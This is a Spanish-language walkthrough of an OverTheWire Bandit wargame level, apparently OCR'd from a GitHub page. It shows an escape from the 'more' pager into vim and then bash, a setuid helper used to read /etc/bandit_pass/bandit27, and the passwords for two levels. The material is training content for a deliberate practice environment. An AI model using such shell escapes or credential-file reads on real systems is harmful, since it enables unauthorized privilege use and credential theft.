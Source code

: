 ## Objetivo
Good job getting a shell! Now hurry and grab the password for bandit27!
## Datos de acceso al nivel

bandit26

c7GvcKlw9mC7aUQaPx7nwFstuAIBw1o1

## Solución

```
_ _ _ _ ___ __ | | | (_) | |__ \ / / | |__ __ _ _ __ __| |_| |_ ) / /_ | '_ \ / _` | '_ \ / _` | | __| / / '_ \ 
--More--(63%)
v
_ _ _ _ ___ __ | | | (_) | |__ \ / / | |__ __ _ _ __ __| |_| |_ ) / /_ | '_ \ / _` | '_ \ / _` | | __| / / '_ \ | |_) | (_| | | | | (_| | | |_ / /| (_) | 
"~/text.txt" [readonly] 6L, 258B 
:set shell=/bin/bash
:shell 
[No write since last change] 
bandit26@bandit:~$ bandit26@bandit:~$ ls 
bandit27-do text.txt 
bandit26@bandit:~$ ./bandit27-do id 
uid=11026(bandit26) gid=11026(bandit26) euid=11027(bandit27) groups=11026(bandit26) 
bandit26@bandit:~$ ./bandit27-do cat /etc/bandit_pass/bandit27 
YnQpBuifNMas1hcUFk70ZmqkhUU2EuaS 
bandit26@bandit:~$ 
bandit26@bandit:~$ exit 
:qa!
q
```
## Notas adicionales

## Referencias